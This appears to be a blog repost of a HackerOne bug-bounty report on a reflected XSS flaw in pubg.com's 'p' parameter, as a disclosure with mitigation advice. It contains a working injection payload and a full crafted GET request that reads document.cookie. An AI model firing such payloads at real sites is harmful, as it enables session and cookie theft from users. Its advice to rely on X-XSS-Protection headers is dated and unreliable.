 ```yaml
---
layout: post
title: HackerOne Vulnerability Report - Reflected XSS in pubg.com
date: 2019-12-12 13:32:20 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
tags: [bugbounty, application security]
---
```


# HackerOne Vulnerability Report - Reflected XSS in pubg.com

![hackerone](https://i.imgur.com/vN8sOrp.png)

[HackerOne Report Link](https://hackerone.com/reports/751870)


## Affected asset(s)

* https://www.pubg.com/

## Description

PUBG's main website https://www.pubg.com has an endpoint that is vulnerable to an injection vulnerability - namely a reflected injection of JavaScript, also known as Reflected Cross Site Scripting (XSS). As per OWASP's definition: "Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. "
This happens because one of the GET parameters "p" does not properly sanitize/escape user input, allowing an injection to occur.

## Proof of Concept
[Video Link](https://youtu.be/sDINhDEgp48)

<img src="https://i.imgur.com/sgdpR47.gif" alt="alt text" width="1000" height="600">

## Steps to reproduce

To reproduce this, an attacker has to:

 * **Step 1)** Prepare a Javascript payload that it wants the victim to execute. In this case, for Proof of Concept purposes, our Javascript code will prompt an alert showing the users' cookies.

```javascript
alert(document.cookie);
```

 * **Step 2)** Inject this Javascript code properly into the vulnerable parameter, creating thus a crafted future GET request that will inject the payload.
 
 ```get_request
 GET /?p=iqz78'%3e%3cimg%20src%3da%20onerror%3dalert(document.cookie)%3d1%3echplq HTTP/1.1
Host: www.pubg.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: https://www.pubg.com/es/feed/
Cookie: _icl_current_language=en; _icl_visitor_lang_js=en-us; wpml_browser_redirect_test=0; __cfduid=de74423d435717d651b1c9e2c63f4acc21575460678
 ```
 
 Request PoC
 
 ![Request](https://i.imgur.com/EkxbL5n.png)
 
  * **Step 3)** As this injection happens in a GET parameter, the attacker simply needs to send the crafted Link that produces this GET request to the victim and have the victim click it.
  
  Injection demonstration
  
  ![Request](https://i.imgur.com/J7FYcXk.png)
  
  ## Impact
  
With user interaction, an attacker could execute arbitrary Javascript code in a victim's browser.

This would allow an attacker to unwillingly make a victim:
 * Perform any action in the identified endpoint
 * View any information that the user is able to view
 * Modify any information that the user is able to modify (not sure if applicable in this case)
 * Interact with other application users as if it were him - impersonation (not sure if applicable in this case)
 
 ## Mitigation
 
 * Sanitize inputs if they are reflected into the html rending
 * Use X-XSS-Protection HTTP headers
 
 [Reference](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
